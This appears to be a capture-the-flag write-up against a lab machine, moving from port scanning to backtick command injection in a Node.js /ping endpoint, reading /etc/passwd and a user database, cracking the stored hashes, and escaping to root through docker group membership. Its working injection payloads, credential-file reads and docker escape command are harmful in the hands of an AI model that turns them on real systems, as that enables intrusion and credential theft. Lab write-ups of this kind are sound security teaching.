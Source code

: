 
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

anonymous ftp not allowed.


gobuster
```
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
            
```

/ping
```
TypeError: Cannot read property 'replace' of undefined
    at app.get (/home/www/api/index.js:45:29)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/api/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/api/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/api/node_modules/express/lib/router/index.js:275:10)
    at cors (/home/www/api/node_modules/cors/lib/index.js:188:7)
    at /home/www/api/node_modules/cors/lib/index.js:224:17
```

`http://10.10.1.197:8081/ping?ip='` gives the error ...
```
/bin/sh: 1: Syntax error: Unterminated quoted string
```

so this appears like it can be injectable. I tried `'pwd'` and `"pwd"` to no avail; however, using backticks in 
```
http://10.10.1.197:8081/ping?ip=`pwd`
```

gives me `ping: /home/www/api: Temporary failure in name resolution`.

injecting `ls` gives us the name of the database being used `utech.db.sqlite`

`cat /etc/passwd` -> `www:x:1002:1002::/home/www:/bin/sh:`

`cat utech.db.sqlite` -> ` ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded`

using john the ripper to crack the password using `rockyou.txt` as wordlist yields `r00t:n100906` and `admin: mrsheafy`. SO far the admin password appears to be incorrect.

```
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```

 well that is a let down. 
 
 ```
 r00t@ultratech-prod:/$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)

 ```
 
 
 ```
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).

 ```
 
 ```
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
 ```
